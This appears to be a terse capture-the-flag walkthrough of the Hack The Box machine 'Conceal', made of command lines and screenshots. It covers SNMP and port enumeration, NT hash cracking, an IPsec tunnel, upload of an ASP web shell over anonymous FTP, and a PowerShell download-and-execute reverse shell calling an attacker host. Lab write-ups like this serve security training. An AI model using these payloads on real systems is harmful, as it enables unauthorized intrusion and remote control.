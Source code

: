 ```
nmap -sU
snmpwalk
john
ipsec up conceal
ftp
webshell
reverse shell
```



```
nmap -sU 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364715-ff3ffc38-74c1-4413-bfc3-fcae12865969.png)



```
ike-scan 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364778-a4a13ea3-021b-4d83-8b00-c03c57b5a620.png)



```
snmpwalk -v2c -c public 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232364814-465dd54b-fd4a-41e8-a43e-41c669b5d4cd.png)



```
john hash -w=/usr/share/wordlists/rockyou.txt --format=NT
```
![image](https://user-images.githubusercontent.com/33616880/232364875-518777e7-95f3-41ef-bfbe-53774db9d249.png)



```
apt install strongswan
```
![image](https://user-images.githubusercontent.com/33616880/232364935-4cbb7254-df0b-420b-a78d-6829d4000f61.png)
![image](https://user-images.githubusercontent.com/33616880/232364951-64aa1c8c-7ab1-46bb-aed3-7e50852792e5.png)
![image](https://user-images.githubusercontent.com/33616880/232364962-c98b750a-4e75-45f0-aca8-610f44cd4254.png)



```
ipsec up conceal
```
![image](https://user-images.githubusercontent.com/33616880/232365041-1bdb6e08-96cf-4bd8-bff2-0c379c88a5c8.png)



```
nmap -sT -p- 10.10.10.116
```
![image](https://user-images.githubusercontent.com/33616880/232365088-55b7420a-981a-49da-89f9-0a26f7f7fbdf.png)



![image](https://user-images.githubusercontent.com/33616880/232365141-15f38484-a572-42cd-88e0-94e3d5e6e527.png)



```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.116/FUZZ -fc 403 -e .aspx,.php,.txt,.html
![image](https://user-images.githubusercontent.com/33616880/232365179-3ae6cec7-5cc5-4768-8365-bfd5630c7cb4.png)
```
![image](https://user-images.githubusercontent.com/33616880/232365198-6ebb3b00-d084-45d0-a9f8-3dc461c794d0.png)



```
ftp 10.10.10.116 : anonymous
put test.txt
```
![image](https://user-images.githubusercontent.com/33616880/232365238-86c2e89e-90ad-46d2-83fe-6445f34f048d.png)
![image](https://user-images.githubusercontent.com/33616880/232365246-f42f2534-6a5c-45af-a10b-33db27d89131.png)



```
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```
```
http://10.10.10.116/upload/cmd.asp?cmd=whoami
```
![image](https://user-images.githubusercontent.com/33616880/232366101-57441e0d-fc94-4fbb-99d5-d55b856e0ad0.png)
![image](https://user-images.githubusercontent.com/33616880/232366110-7f6082bd-20b8-48b0-a5f1-dadc070b338f.png)
![image](https://user-images.githubusercontent.com/33616880/232366126-b3fc0a5b-6379-4593-9ff0-68a460f93c88.png)



```
git clone https://github.com/samratashok/nishang.git
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
Add payload a line to the end: Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 4444
http://10.10.10.116/upload/cmd.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.7/Invoke-PowerShellTcp.ps1%27)
```
![image](https://user-images.githubusercontent.com/33616880/232365388-518308e7-efb2-4b48-adef-583573a84920.png)
![image](https://user-images.githubusercontent.com/33616880/232365400-966934e9-4409-414f-8ef7-41e86897b1b6.png)
![image](https://user-images.githubusercontent.com/33616880/232365409-b30bd056-5ec7-4a2b-9540-6f0eb3417dd7.png)



```
whoami /priv
```
![image](https://user-images.githubusercontent.com/33616880/232365422-2e537ec4-2461-4de6-b1ef-bb85995c0182.png)


